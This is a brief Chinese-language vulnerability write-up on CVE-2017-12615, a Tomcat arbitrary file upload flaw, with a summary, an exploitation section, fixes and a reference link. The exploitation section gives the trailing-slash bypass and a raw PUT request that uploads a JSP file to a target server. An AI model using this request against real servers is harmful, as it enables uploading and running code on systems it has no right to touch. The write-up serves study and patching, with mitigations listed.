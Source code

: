 ### 0x00 简述

漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：ALL

影响版本：Apache Tomcat 7.0.0 - 7.0.81

### 0x01 利用

在 Windows 服务器下， 默认 readonly 为 true，当 readonly 设置为 false 时，可以通过 PUT / DELETE 进行文件操控，并可以执行任意代码。直接使用 PUT上传文件时却发现会报404：
![1583229295580](./images/1583229295580.png)

这是因为在默认配置中，当后缀名为 .jsp 和 .jspx 的时候，是通过 JspServlet 处理请求的，要上传文件就得绕过，所以需要在文件末尾加上 `/` 进行绕过(windows下可以使用`%20`)

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

### 0x02 修复

- 禁用`PUT`
- `readonly` 设为 `true`
- 升级

### 0x03 参考链接

 https://paper.seebug.org/398 
